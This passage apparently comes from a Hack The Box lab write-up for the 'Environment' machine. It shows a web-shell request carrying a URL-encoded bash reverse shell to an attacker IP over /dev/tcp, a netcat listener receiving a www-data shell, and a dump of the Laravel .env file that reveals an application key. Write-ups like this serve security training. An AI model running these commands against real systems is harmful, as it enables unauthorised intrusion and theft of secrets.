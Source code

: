 ![](images/Pasted%20image%2020250713022806.png)
But we wanna get the reverse shell, so let's change the payload here.
```
http://environment.htb/storage/files/shell.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/10.10.14.16/443+0%3E%261%27
```
Then we successfully get the shell as `www-data`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Environment]
└─$ nc -lnvp 443                               
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.67] 45678
bash: cannot set terminal process group (831): Inappropriate ioctl for device
bash: no job control in this shell
www-data@environment:~/app/storage/app/public/files$ 

```

# Shell as hish

Firstly I would prefer to check the `.env` of this service
```
www-data@environment:~/app$ cat .env
cat .env
APP_NAME=Laravel
APP_ENV=production
APP_KEY=base64:BRhzmLIuAh9UG8xXCPuv0nU799gvdh49VjFDvETwY6k=
APP_DEBUG=true
APP_TIMEZONE=UTC
APP_URL=http://environment.htb
APP_VERSION=1.1

APP_LOCALE=en
APP_FALLBACK_LOCALE=en
APP_FAKER_LOCALE=en_US

APP_MAINTENANCE_DRIVER=file
# APP_MAINTENANCE_STORE=database
```